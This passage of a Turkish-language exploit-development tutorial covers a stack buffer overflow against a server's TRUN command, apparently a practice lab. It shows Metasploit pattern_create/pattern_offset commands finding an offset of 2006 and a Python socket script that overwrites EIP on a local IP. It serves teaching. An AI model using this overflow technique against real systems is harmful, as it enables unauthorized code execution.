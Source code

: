 

### OFFSET DEĞERİ

Amaç, tam olarak uygulamanın crash yediği karakter uzunluğunu bulmaktır. Bu sayede ESP' register'ını kontrol edeceğiz. İlgili işlem için bize benzersiz bir string gerekiyor. Bunun için MSF'in pattern_create aracından yararlanılabilir.
Uygulamamız 2000 ila 2400 arasında crash oluyordu..

`
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
`

Elde edilen string uygulamaya gönderilerek EIP register'ının aldığı değeri görmeliyiz. Daha sonra EIP register'ının aldığı aldığı değere bakıp EIP register'ının aldığı string'in başlangıcını ürettiğimiz stringin içindeki pozisyonundan bularak uygulamanın kırılma noktasını bulacağız.

Benzersiz string'i uygulamaya fuzzer scriptiyle veya uygulamaya bağlanıp o şekilde de gönderebiliriz.

Debugger'da uygulama çalışırken string'i gönderdikten sonra uygulama yine crash olacaktır. Bu sefer debugger'da EIP register'ının aldığı karakterleri görüyoruz: 396F4338
EIP'deki ascii olarak olan 396F4338 bu karakterlerin oluşturduğumuz string içindeki hangi pozisyonda bulunduğunu hesaplamak için ise bu sefer MSF'in pattern_offset aracını kullanacağız:

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 396F4338
[*] Exact match at offset 2006
```

Artık uygulamanın tam olarak crash verdiği noktayı bulduk: 2006
Yani; uygulamaya 2006 karakter uzunluğunda string gönderilme durumunda kırılıyormuş.



### EIP REGISTER KONTROLÜ

Belirlediğimiz offset değeri olan 2006 karakter uzunluğunda uygulamaya bir string göndereceğiz ve daha sonra 4 karakter uzunluğunda da farklı bir string göndereceğiz. 2006'dan sonraki gelen 4 karakter EIP register'ının yerine set edilecek.

```python
#!/usr/bin/python

import socket

karaktersiz = "A" * 2006 + 'B' * 4
i = 200

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.43.29',9999))
s.recv(1024)
s.send('TRUN .' + karaktersiz)
s.recv(1024)
s.close()
```
